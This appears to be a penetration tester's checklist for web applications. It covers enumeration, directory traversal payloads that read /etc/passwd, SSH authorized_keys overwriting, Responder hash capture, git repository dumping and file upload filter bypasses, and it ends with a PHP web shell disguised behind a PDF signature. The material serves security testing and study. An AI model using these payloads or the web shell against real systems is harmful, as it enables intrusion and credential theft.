 # Initial Enumeration

- [ ] Manually enumerate Web Application on your Kali Machine Firefox browser
```
Firefox Debugger tool
Firefox Inspector tool
Firefox Network tool
```

- [ ] Manually check common for directories and files from your Kali Machine
```
/robots.txt
```

- [ ] Fingerprint Web Application with `nmap` on your Kali Machine
```
sudo nmap -O -A --script vuln -p 80 192.168.yyy.yyy
```
```
nmap -p 80 -sV --script http-headers,http-methods,http-server-header,http-title,http-enum,http-git 192.168.yyy.yyy
```

- [ ] Identify web technologies with `whatweb` on your Kali Machine
```
whatweb http://192.168.yyy.yyy
```

- [ ] Check if WordPress is running from your Kali Machine
```
wpscan --url http://example.com/
```

- [ ] Directory Busting with different wordlists from your Kali Machine
```
gobuster dir -u http://192.168.yyy.yyy:80 -w /usr/share/wordlists/dirb/big.txt -t 5
```
```
gobuster dir -u http://192.168.yyy.yyy:80 -w /usr/share/wordlists/dirb/common.txt -t 5
```
```
gobuster dir -u http://192.168.yyy.yyy:80 -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt -t 5
```
```
gobuster dir -u http://192.168.yyy.yyy:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 5
```
```
gobuster dir -u http://192.168.yyy.yyy:80 -w /usr/share/wordlists/wfuzz/general/megabeast.txt -t 5
```
```
gobuster dir -u http://192.168.yyy.yyy:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -t 5
```

- [ ] Bruteforcing API Paths using pattern from your Kali Machine
```
gobuster dir -u http://192.168.yyy.yyy:80 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -p pattern
```
Gobuster pattern
```
{GOBUSTER}/v1
{GOBUSTER}/v2
```

- [ ] Recursively bruteforcing paths from your Kali Machine
```
feroxbuster -u http://192.168.yyy.yyy:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt --quiet -o ferox_out.txt
```

- [ ] Identify pages and files from your Kali Machine
```
gobuster dir -u http://192.168.yyy.yyy:80 -w /usr/share/wordlists/dirb/common.txt -x txt,pdf,config
```
```
feroxbuster -u http://192.168.yyy.yyy:80 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt -x pdf,js,html,php,txt,ini,config,json,docx,doc,xls,xlsx,xlsm,zip,log,git --quiet -o ferox_out.txt
```

- [ ] Check for Directory Traversal Vulnerabilities from your Kali Machine
```
http://example.com/index.php?page=../../../etc/passwd%00
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://example.com/index.php?page=%5c..%5c..%5c..%5cetc/passwd
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=.%2e/%2e%2e/%2e%2e/etc/passwd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
- Try changing `/` for `\`

- [ ] Check for Inclusion Vulnerabilities from your Kali Machine
```
Log Poisoning
PHP Wrappers
Local File Inclusion (LFI)
Remote File Inclusion (RFI)
```

- [ ] Check for use of Executable Files from your Kali Machine
```
Usage of Webshell
```

- [ ] Check for use of Non-Executable Files from your Kali Machine
```
Overwritting files 
E.g., Overwrite SSH authorized keys ../../../../../root/.ssh/authorized_keys
```

- [ ] Check for Injection from your Kali Machine
```
SQL Injection
MSSQL xp_cmdshell
OS Command Injection aka shell injection
```

- [ ] Check for exploits from your Kali Machine
```
searchsploit Apache
```
- Search the title
- Search the technologies used
	- E.g., Web server version, php version, etc.

# Possible exploits

## Exposed git directory

- [ ] Download git-dumper on your Kali Machine
```
git clone https://github.com/arthaud/git-dumper
cd git-dumper
pip install -r requirements.txt
```

- [ ] Dump git repository from web application on your Kali Machine
```
python git_dumper.py http://192.168.yyy.yyy/.git/ /home/kali/Desktop/test
```

## Rogue authentication server

- [ ] Start `responder` to answer to File Server Service request for SMB on our Kali machine to capture user's Net-NTLMv2 hash
```
sudo responder -I tun0 -v
```

- [ ] Create an SMB connection to our Kali machine
```
\\192.168.xxx.xxx\test
```

- [ ] Crack the hashes on your Kali Machine or use for PtH

## File Upload

### File Extensions

- [ ] Intercept upload request

- [ ] Change the file extension
```
.php
.pHp
```

- [ ] Adding special characters at the end
```
file.php%20
file.php%0a
file.php%00
file.php%0d%0a
```

- [ ] Adding junk data (null bytes) between extensions
```
file.php.png
file.png.php
file.png.jpg.php
file.php#.png
file.php%00.png
file.php\x00.png
file.php%0a.png
file.php%0d%0a.png
```

### Content Type

- [ ] Intercept upload request

- [ ] Change content type
```
Content-Type: application/pdf
```

### File signatures (Magic Bytes)

- [ ] Intercept upload request

- [ ] Change the file signature of the file content E.g., Bypass PDF signature check
```
%PDF-
<?php echo shell_exec($_GET['cmd'].' 2>&1'); ?>
```

References:
https://book.hacktricks.xyz/pentesting-web/file-upload
https://exploit-notes.hdks.org/exploit/web/security-risk/file-upload-attack/
